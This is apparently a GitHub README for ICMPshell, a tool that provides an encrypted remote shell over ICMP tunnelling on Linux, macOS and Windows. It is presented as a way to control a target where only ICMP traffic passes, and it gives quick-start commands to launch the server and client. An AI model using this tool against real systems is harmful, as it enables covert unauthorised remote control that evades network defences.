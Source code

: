 # ICMPshell
A remote control based on ICMP tunnel. Ability to support Linux, Darwin, Windows. The communication flow is encrypted with AES encryption of CBC mode. But the server and the client need Root / Administrator permissions, which is suitable for getting target high rights and only ICMP can be connected.



## Requirements

```
pycryptodome==3.11.0
# I use Python 3.6 to develop this project
```



## QUICK START

````python
# server
python3 server.py -r {rhost} -b {bind_ip}

# cilent
python3 cilent.py -l {lhost} -b {bind_ip}

# In Linux and Darwin operating systems, -b parameters (bind_ip) can be specified as 0.0.0.0, Windows needs to judge which network interface card
````



## Darwin

![darwin](https://github.com/seventeenman/ICMPshell/tree/main/img/darwin.jpg)



## Linux

![linux_server](https://github.com/seventeenman/ICMPshell/tree/main/img/linux_server.jpg)



![linux_cilent](https://github.com/seventeenman/ICMPshell/tree/main/img/linux_cilent.jpg)



## Windows

![win](https://github.com/seventeenman/ICMPshell/tree/main/img/win.jpg)



## Known issues

By default, OSX has a limited maximum UDP package for 9216 bytes. So you can't read the contents of this byte number. In the later stage, I will consider adding a flag to a single transmission in the UDP traffic.

This project only has a simple test, if there is an error, Issue can be turned on.
